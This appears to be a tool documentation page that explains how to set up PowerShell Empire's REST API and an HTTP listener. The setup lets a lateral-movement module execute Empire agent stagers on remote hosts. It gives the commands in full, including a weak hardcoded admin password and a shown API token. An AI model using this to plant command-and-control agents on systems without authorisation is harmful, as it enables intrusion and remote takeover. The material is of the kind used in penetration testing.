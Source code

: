 # Empire Agent

### We can use the empire_exec module to execute an Empire Agent's initial stager. In the background, the module connects to Empire's RESTful API, generates a launcher for the specified listener and executes it.

## 1) First, setup the rest API:

#### #~ python powershell-empire --rest --user empireadmin --pass Password123!

[*] Loading modules from: /home/mpgn/Tools/Empire/lib/modules/

 * Starting Empire RESTful API on port: 1337
 
 * RESTful API token: l5l051eqiqe70c75dis68qjheg7b19di7n8auzml
 
 * Running on https://0.0.0.0:1337/ (Press CTRL+C to quit)

## 2) Second, setup a listener


(Empire: listeners) > set Name test

(Empire: listeners) > set Host 192.168.10.3

(Empire: listeners) > set Port 9090

(Empire: listeners) > set CertPath data/empire.pem

(Empire: listeners) > run

(Empire: listeners) > list

[*] Active listeners:

  ID    Name              Host                                 Type      Delay/Jitter   KillDate    Redirect Target
  --    ----              ----                                 -------   ------------   --------    ---------------
  1     test              http://192.168.10.3:9090                 native    5/0.0                      

(Empire: listeners) > 

